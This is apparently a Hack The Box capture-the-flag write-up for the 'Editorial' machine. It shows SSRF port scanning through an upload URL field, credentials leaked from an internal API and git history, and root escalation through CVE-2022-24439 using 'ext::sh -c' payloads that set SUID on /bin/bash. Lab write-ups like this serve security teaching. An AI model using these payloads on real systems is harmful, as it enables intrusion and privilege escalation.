







# Editorial - Easy

Target IP: **10.129.64.94.**

## User Flag

Initial scan: ```sudo nmap -sC -sV 10.129.64.94 -v```

Output shows standard port 22 for ssh and port 80 running Nginx 1.18.0.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://editorial.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 80 redirects us to ```http://editorial.htb```, so let's add it to our ```/etc/hosts``` file and navigate to it.

We are greeted with this home page.


Testing out the functionalities, trying to search for something with the search bar doesn't do anything.

What is most interesting is the "Publish with us" section, where we can upload an image file for the cover of the book. We might be able to bypass the filtering to upload a reverse shell script.


Let's send a dummy request and see what it does.

Sending a request just returns us the original ```/uploads``` page, so I don't think anything interesting is here.



I noticed something interesting here. We have the option to preview whatever file we upload.

I uploaded a dummy ```hi.txt``` file containing "hi," From capturing the request and response, we can see that it sends a POST request to ```/upload-cover```, then returns back to us to what I assume is the location of the uploaded file. Then, to actually generate the preview on the small image box on the left side, a Get request is sent to the aforementioned url of the upload that is sent in the response body. From this, we can infer that whatever file we choose to upload as the photo is actually uploaded to the server when we preview it, and the server grabs its url to generate the actual preview.





Let's look at the url option to upload photos. Just to test, I started a webserver on my attack host and entered the url of it.



We get a connection back on our webserver, which indicates that the server is sending requests out to the url that it is provided. The rest of the preview functionality works the same, it uploads it and then fetches the image by sending a GET request to the url of the image.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-umwziefhrf]─[~]
└──╼ [★]$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.64.94 - - [16/Sep/2026 11:53:59] "GET / HTTP/1.1" 200 -
```

Additionally, when our url is valid and it points to an actual file, it responds with the url of the uploaded file on the server.

We can try controlling what url the server sends request to. Let's try ```http://127.0.0.1/file:///etc/passwd```

The response for any url to a file that doesn't exist will be the default static image, but this request hanged for about 20 seconds before returning it. I expected a request to port 80 to work since the webserver itself should be listening, but this request behaved weirdly.



Sending a request to a random port gives us back a response immediately with the default image.



Additionally, we are only limited to sending requests to legitimate ports running http, because the only way to tell if we formed a valid request is if we receive a definite url for the uploaded content back. So if we try sending a request to ```ssh://127.0.0.1:22/```, we know that it is there because we saw the ssh service on the scan, but there is nothing to capture as output and display it to us.

Naturally, really the only thing we can scan for is ports that are running another webserver, and we can verify that by the response that the server gives. If it returns an actual url that is not the static image, then that port is valid.

Let's copy the request to ```/upload-cover```, then fuzz it with ```ffuf```, testing all ports.

We get a singular hit on port 5000.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-umwziefhrf]─[~]
└──╼ [★]$ ffuf -u http://editorial.htb/upload-cover -w ports.txt -request request -t 10 -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://editorial.htb/upload-cover
 :: Wordlist         : FUZZ: /home/htb-mp-3199654/ports.txt
 :: Header           : Priority: u=0
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Connection: keep-alive
 :: Header           : Host: editorial.htb
 :: Header           : Accept: */*
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Referer: http://editorial.htb/upload
 :: Header           : Content-Type: multipart/form-data; boundary=----geckoformboundary2587abb6b339f60afedd7604ad3cc889
 :: Header           : Origin: http://editorial.htb
 :: Header           : DNT: 1
 :: Data             : ------geckoformboundary2587abb6b339f60afedd7604ad3cc889
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ/
------geckoformboundary2587abb6b339f60afedd7604ad3cc889
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


------geckoformboundary2587abb6b339f60afedd7604ad3cc889--

 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

5000                    [Status: 200, Size: 51, Words: 1, Lines: 1, Duration: 56ms]
:: Progress: [65535/65535] :: Job [1/1] :: 246 req/sec :: Duration: [0:05:00] :: Errors: 1 ::
```

Let's send a manual request on Burp to confirm it.

We indeed get a url back, indicating that there is a webserver on port 5000.



Let's now navigate to the url of the upload and get the content. After downloading the file to our attack box, we can see that the file tells us endpoints that are on port 5000.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-umwziefhrf]─[~]
└──╼ [★]$ cat 6dde3ea4-912e-466c-a2a2-537dc8605ffb | jq
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```

At this point, we can get the contents of all these endpoints by using the same ssrf vulnerability. We can't access these directly since port 5000 itself is hidden.

The ```/authors``` file seems most interesting, as we could find user data including credentials.

Getting the content, we indeed see a set of credentials.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-umwziefhrf]─[~]
└──╼ [★]$ cat 864848fe-71e4-4dd8-874c-286170e7e9d3 | jq
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```

Let's try logging in with these credentials through ssh.

We're in as the ```dev``` user.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-umwziefhrf]─[~]
└──╼ [★]$ ssh dev@10.129.64.94
The authenticity of host '10.129.64.94 (10.129.64.94)' can't be established.
ED25519 key fingerprint is SHA256:YR+ibhVYSWNLe4xyiPA0g45F4p1pNAcQ7+xupfIR70Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.64.94' (ED25519) to the list of known hosts.
dev@10.129.64.94's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Wed Sep 16 04:43:57 PM UTC 2026

  System load:           0.12
  Usage of /:            61.7% of 6.35GB
  Memory usage:          13%
  Swap usage:            0%
  Processes:             225
  Users logged in:       0
  IPv4 address for eth0: 10.129.64.94
  IPv6 address for eth0: dead:beef::a0de:adff:fef7:110d


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Jun 10 09:11:03 2024 from 10.10.14.52
dev@editorial:~$ whoami
dev
```

We can proceed to get the user flag from here.

## Root Flag

```sudo -l``` tells us that the ```dev``` user cannot run sudo.

There aren't any interesting binaries with the SUID bit set either.

Looking at the ```/home``` directory, we see that there is another ```prod``` user.

I wonder if we are meant to get a connection as the ```prod``` user.

We also see that there is an ```apps/.git``` folder. Let's analyze some things about the GitHub repository.

We see a history of changes made checking ```git log --oneline```.

```
dev@editorial:~/apps$ git log --oneline
8ad0f31 (HEAD -> master) fix: bugfix in api port endpoint
dfef9f2 change: remove debug and update api port
b73481b change(api): downgrading prod to dev
1e84a03 feat: create api to editorial info
3251ec9 feat: create editorial app
```

What looks interesting is ```b73481b```. Let's see what was changed after that commit.

```
dev@editorial:~/apps$ git diff 1e84a03 b73481b
diff --git a/app_api/app.py b/app_api/app.py
index 61b786f..3373b14 100644
--- a/app_api/app.py
+++ b/app_api/app.py
@@ -64,7 +64,7 @@ def index():
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass
 
 # -------------------------------
```

We see credentials for the ```prod``` user. Let's switch to the ```prod``` user.

```
dev@editorial:~/apps$ su - prod
Password: 
prod@editorial:~$ 
```

```sudo -l``` as the ```prod``` user tells us that we can run a script with any arguments as ```root```.

```
prod@editorial:~$ sudo -l
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

Let's see what this script does.

It simply seems to be cloning repos from a url, taking in our first argument as the url to clone from.

```
prod@editorial:~$ cat /opt/internal_apps/clone_changes/clone_prod_change.py 
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

Looking at the version of ```GitPython```, we know that it is verion 3.1.29.

```
prod@editorial:~$ pip freeze | grep -i "git"
gitdb==4.0.10
GitPython==3.1.29
```

A search online reveals that this version is vulnerable to CVE-2022-24439.

Let's try to run a PoC payload.

```
prod@editorial:~$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/pwned'
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c touch% /tmp/pwned new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
'
```

This displays an error message, but our directory ```/tmp/pwned``` has been created and is owned by ```root```, confirming the vulnerability.

```
prod@editorial:~$ ls -la /tmp/pwned
-rw-r--r-- 1 root root 0 Sep 16 20:39 /tmp/pwned
```

We can create a script that will add the SUID bit to bash, then run bash with the privileged flag set, and hopefully get a shell as root.

```
#!/bin/bash

chmod +s /bin/bash
```

```
prod@editorial:/tmp$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c bash% /tmp/shell.sh'
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c bash% /tmp/shell.sh new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
'
prod@editorial:/tmp$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1396520 Mar 14  2024 /bin/bash
prod@editorial:/tmp$ /bin/bash -p
bash-5.1# whoami
root
```

It works! We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
